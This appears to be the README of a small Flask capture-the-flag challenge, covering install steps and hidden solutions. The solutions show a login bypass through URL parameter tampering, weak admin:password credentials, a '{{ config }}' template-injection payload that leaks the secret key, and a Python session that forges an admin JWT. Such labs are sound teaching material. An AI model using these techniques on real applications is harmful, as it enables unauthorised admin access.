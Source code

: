 # LoginChallenge2022
Mini CTF challenge for the September 2022 Activity Fair

## Install + Setup

### Using poetry

Install poetry for your platform

``` sh
# Enter project dir
cd web
# Install dependencies
poetry install
# Run application
poetry run flask run
```


### Install Flask

**Windows**

Install Python:

https://www.python.org/downloads/release/python-397/

Set PATH:
- Start > Edit Environment Variables
- Add Python install directory to both System and Environment variables

Check python installed:

```
PS > python --version
```

Install flask and other dependencies:

```
PS > python -m pip install -r requirements.txt
```

**Linux**

```
$ python3 -m pip install -r requirements.txt
```

## Run

### Windows

```
PS > cd .\web\
PS > $env:FLASK_APP = "app"
PS > $env:FLASK_DEBUG = "true"
PS > python -m flask run
```

## Solution

### Part 1


<details>

<summary>Spoilers</summary>

Change the `http://localhost:5000/?loginSuccessful=False` parameter to `True`

OR

Guess the weak credentials `admin`:`password`

</details>

### Part 2


<details>

<summary>Spoilers</summary>

Leak app secret with SSTI, submitting `{{ config }}` as username. This will take you to a page that displays the `JWT_SECRET_KEY` parameter. This key is used to sign JWT cookies.

THEN

Inspect the JWT to see `is_admin` parameter and forge a new cookie, using the following `jwt` library to import the `JWT_SECRET_KEY` as `secret`.

```
$ python
>>> import jwt
>>> token = 'eyJ0....K3FA'
>>> secret = ';nod87b;/dfub6vaz.knib'
>>> jwt.decode(token, secret, "HS256") 
{'fresh': False, 'iat': 1663444862, 'jti': '6b0f4003-7579-41cc-bc30-c0fb9c4e3ef3', 'type': 'access', 'sub': {'is_admin': False}, 'nbf': 1663444862, 'csrf': 'fbcf88b6-684e-42e7-8d7d-1de3fd65b58e', 'exp': 1663445762}
>>> j = jwt.decode(token, secret, "HS256") 
>>> j['sub'] = {'is_admin': True}
>>> jwt.encode(j, secret)
'eyJ0...ncRo'
```

Replace the `access_token_cookie` with this new value and reload the page.

</details>

